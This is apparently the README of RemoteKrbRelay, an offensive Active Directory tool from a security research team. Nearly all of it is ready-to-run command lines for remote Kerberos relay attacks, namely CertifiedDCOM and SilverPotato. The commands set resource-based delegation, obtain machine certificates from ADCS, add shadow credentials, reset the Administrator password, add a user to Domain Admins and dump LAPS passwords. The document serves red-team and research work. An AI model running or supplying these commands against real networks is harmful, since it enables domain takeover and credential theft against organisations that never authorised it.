 ```shell
                            /\_/\____,
                  ,___/\_/\ \  ~     /
                  \     ~  \ )   XXX
                    XXX     /    /\_/\___,
                       \o-o/-o-o/   ~    /
                        ) /     \    XXX
                       _|    / \ \_/
                    ,-/   _  \_/   \
                   / (   /____,__|  )
                  (  |_ (    )  \) _|
                 _/ _)   \   \__/   (_
                (,-(,(,(,/      \,),),)

                CICADA8 Research Team
                From Michael Zhmaylo (MzHmO)
```

# RemoteKrbRelay

You probably know [KrbRelay](https://github.com/cube0x0/KrbRelay) and [KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp), but what if I told you it could be done remotely? With RemoteKrbRelay this becomes a reality.


# TL;DR

Learn more about CertifiedDCOM [here](https://blackhat.com/asia-24/briefings/schedule/#certifieddcom--the-privilege-escalation-journey-to-domain-admin-with-dcom-37519). CertifiedDCOM allows you to trigger an ADCS machine account:
```shell
# CertifiedDCOM (Abuse AD CS by setting RBCD)
  .\RemoteKrbRelay.exe -rbcd -victim adcs.root.apchi -target dc01.root.apchi -clsid d99e6e74-fc88-11d0-b498-00a0c90312f3 -cn FAKEMACHINE$

# CertifiedDCOM (Abuse ADCS to get Machine cert)
   .\RemoteKrbRelay.exe -adcs -template Machine -victim adcs.root.apchi -target dc01.root.apchi -clsid d99e6e74-fc88-11d0-b498-00a0c90312f3

# CertifiedDCOM (Abuse ADCS with ShadowCreds)
  .\RemoteKrbRelay.exe -shadowcred -victim adcs.root.apchi -target dc01.root.apchi -clsid d99e6e74-fc88-11d0-b498-00a0c90312f3 -forceshadowcred
```

There's also the [SilverPotato](https://decoder.cloud/2024/04/24/hello-im-your-domain-admin-and-i-want-to-authenticate-against-you/) exploit. You can use it to abuse sessions. Including a domain administrator session on a third-party host.
```shell
# Change user password
  .\RemoteKrbRelay.exe -chp -victim dc01.root.apchi -target dc01.root.apchi -clsid f87b28f1-da9a-4f35-8ec0-800efcf26b83 -chpuser Administrator -chppass Lolkekcheb123! -secure

# Add user to group
  .\RemoteKrbRelay.exe -addgroupmember -victim computer.root.apchi -target dc01.root.apchi -clsid f87b28f1-da9a-4f35-8ec0-800efcf26b83 -group "Domain Admins" -groupuser petka

# Dump LAPS passwords
  .\RemoteKrbRelay.exe -laps -victim mssql.root.apchi -target dc01.root.apchi -clsid f87b28f1-da9a-4f35-8ec0-800efcf26b83

# Send LDAP Whoami request from relayed user
  .\RemoteKrbRelay.exe -ldapwhoami -victim win10.root.apchi -target dc01.root.apchi -clsid f87b28f1-da9a-4f35-8ec0-800efcf26b83

```